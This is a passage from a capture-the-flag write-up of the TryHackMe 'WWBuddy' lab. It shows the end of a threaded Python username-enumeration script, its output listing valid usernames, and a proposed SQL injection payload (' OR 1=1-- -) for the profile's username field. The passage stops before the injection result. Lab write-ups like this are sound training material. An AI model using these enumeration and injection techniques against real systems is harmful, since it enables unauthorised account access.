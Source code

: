 ```py
        for line in fd:
            username = line.strip()

            thread = Thread(target=sendRequest, args=(url, username))
            thread.start()

            # You can adjust how fast of each thread start. 0.05s is recommended
            sleep(0.05)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# python3 enum_usernames.py
[+] Found valid username: roberto        
[+] Found valid username: henry          
[+] Found valid username: Henry          
[+] Found valid username: Roberto        
[+] Found valid username: ROBERTO
```

Now, we can confirm we found user: `roberto`, `henry`, **AND `wwbuddy`**

## Initial Foothold

However, instead of brute forcing their password, I wanna test one thing real quick.

In `/index.php`, we can change our username, and **our username fuzzing string indeed triggered an SQL syntax error.**

**Now, what if I change the username to an SQL injection payload: `' OR 1=1-- -`?**
